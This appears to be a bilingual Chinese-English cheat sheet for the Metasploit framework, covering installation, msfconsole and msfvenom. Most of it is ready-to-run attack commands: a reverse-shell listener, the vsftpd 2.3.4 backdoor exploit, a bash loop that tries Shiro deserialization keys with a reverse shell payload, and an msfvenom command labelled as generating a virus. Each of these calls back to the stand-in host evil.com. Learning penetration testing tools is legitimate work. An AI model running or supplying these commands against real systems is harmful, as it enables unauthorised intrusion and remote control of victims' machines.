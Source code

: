 The world’s most used penetration testing framework.

## 1. Install

安装

```
┌──(nemo@debian)-[~]
└─$ curl https://raw.githubusercontent.com/rapid7/metasploit-omnibus/master/config/templates/metasploit-framework-wrappers/msfupdate.erb > ~/msfinstall \
&& chmod 755 ~/msfinstall \
&& ~/msfinstall && rm -f ~/msfinstall
```

## 2. Init

```
┌──(nemo@debian)-[~]
└─$ msfdb init
```

## 3. Usage

### 3.1. msfconsole

启动数据库

```
┌──(nemo@debian)-[~]
└─$ msfdb start
```

进入控制台

```
┌──(nemo@debian)-[~]
└─$ msfconsole
```

Listen

```
msf > use exploit/multi/handler
show payloads
set PAYLOAD linux/x86/meterpreter/reverse_tcp
show options
set LHOST evil.com
set LPORT 4444
run
```

Exploit

```
msf > search vsftpd 2.3.4
use exploit/unix/ftp/vsftpd_234_backdoor
show payloads
set PAYLOAD cmd/unix/interact
show options
set RHOSTS example.com
set RPORT 80
set LHOST/CHOST evil.com
set LPORT/CPORT 4444
set TARGET 0
check
run
```

Script

```
#!/bin/bash

RHOSTS="example.com"
RPORT="80"
MODULE="exploit/multi/http/shiro_rememberme_v124_deserialize"
PAYLOAD="cmd/unix/reverse"
LHOST="evil.com"
LPORT="4444"
KEYFILE="$HOME/shiro_keys.txt"

while IFS= read -r KEY || [ -n "$KEY" ]; do
  echo "[*] Key: $KEY"
  msfconsole -q -x "use ${MODULE}
set RHOSTS ${RHOSTS}
set RPORT ${RPORT}
set ENC_KEY ${KEY}
set PAYLOAD ${PAYLOAD}
set LHOST ${LHOST}
set LPORT ${LPORT}
exploit
exit" 

done < "$KEYFILE"

```

```
msf > help       # 列出所有命令帮助
<command> -h     # 列出指定命令的常用帮助
help <command>   # 列出指定命令的完整帮助
back             # 返回
exit             # 退出
check            # 探测漏洞
run              # 执行模块
run -j           # 后台执行模块
jobs             # 列出后台任务
jobs -v          # 列出后台任务详情
jobs -K <Id>     # 终止所有后台任务
jobs -k <Id>     # 终止指定后台任务
sessions         # 列出会话
sessions -i <Id> # 进入会话
sessions -k <Id> # 终止会话
```

### 3.2. msfvenom

生成病毒

```
┌──(nemo@debian)-[~]
└─$ msfvenom -a x64 --platform linux -p linux/x64/meterpreter/reverse_tcp LHOST=evil.com LPORT=4444 -f elf -o ~/venom
```

---

References

- [Metasploit](https://www.metasploit.com/)
- [Installing Metasploit on Linux / macOS](https://docs.metasploit.com/docs/using-metasploit/getting-started/nightly-installers.html)

